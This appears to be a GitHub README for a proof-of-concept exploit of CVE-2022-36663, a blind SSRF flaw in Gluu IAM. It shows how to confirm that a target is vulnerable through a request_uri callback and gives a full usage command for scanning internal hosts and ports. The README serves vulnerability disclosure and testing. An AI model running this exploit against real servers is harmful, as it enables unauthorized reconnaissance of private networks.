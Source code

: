 # CVE-2022-36663-PoC
Internal network scanner through Gluu IAM blind ssrf

Gluu IAM is vulnerable to blind SSRF which can be exploited to scan the internal network for open ports depending on response times.

https://nvd.nist.gov/vuln/detail/CVE-2022-36663

To check if the target is vulnerable, add `&request_uri=http://burpcollab` to the `/oxauth/restv1/authorize` request and poll for incoming traffic from the target server.
# Usage

```python3 CVE-2022-36663.py --url https://target --ip 10.10.10.10 --port 8080 --ar '/oxauth/restv1/authorize?client_id=<clientID>&redirect_uri=https://target.com/return.html&response_type=code&scope=openid+profile+email+user_name&nonce=<nonce>&acr_values=simple_password_auth&request_uri='```

Url - the Gluu IAM server url

IP - The internal Ip address or subnet that you want to scan

Port - The internal port you want to scan

AR - The authorization request URL ending with an empty request_uri

![image](https://user-images.githubusercontent.com/84850150/197365625-d929cc4f-a87a-4f91-99c8-dd32decad1fb.png)

